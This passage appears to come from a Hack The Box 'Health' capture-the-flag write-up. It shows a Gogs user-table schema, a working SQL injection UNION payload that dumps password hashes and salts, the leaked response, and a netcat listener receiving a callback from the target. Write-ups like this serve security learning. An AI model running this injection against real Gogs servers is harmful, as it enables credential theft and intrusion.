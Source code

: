 ```
 `avatar` TEXT NOT NULL 
 `avatar_email` TEXT NOT NULL 
 `location` TEXT NULL 
 `website` TEXT NULL 
 `is_active` INTEGER NULL 
 `is_admin` INTEGER NULL 
 `rands` TEXT NULL 
 `salt` TEXT NULL 
 `created` NUMERIC NULL 
 `updated` NUMERIC NULL 
 `description` TEXT NULL 
 `num_teams` INTEGER NULL 
 `num_members` INTEGER NULL))
```
Then lets extract data from this local `gogs` and then every successful payload will be used to attack the box.
![image](/assets/img/health/09.png)

**Payload**
```
')/**/UNION/**/ALL/**/SELECT/**/1,2,(select/**/salt/**/from/**/user)||':'||(select/**/passwd/**/from/**/user),4,5,6,7,8,9,0,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/- 
```
**Result**
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8
Date: Wed, 11 Jan 2023 12:08:16 GMT
Content-Length: 277
Connection: close

{"data":[{"username":"hashghost","avatar":"//1.gravatar.com/avatar/70b03db954aa45fc2559e85f5d5bd13e"},{"username":"Al1tII06ac:eb4b08d0fa0e44bd4db74a4a9193a9a1c6b5dfbd282b1550041753bf169bce208e9ede10ead57d1cbf2636a185ee3e36ca60","avatar":"//1.gravatar.com/avatar/15"}],"ok":true
```
## User 
Now i can use the payload which will print username,password and the salt from the box. now lets fire the `python/php` and submit the payload then listen to fetch results.
```
┌──(egovridc㉿egovridc)-[~/…/htb/health/www]
└─$ nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.176] 34818
POST / HTTP/1.1
Host: 10.10.14.18:1235
Accept: */*
Content-type: application/json
Content-Length: 987

```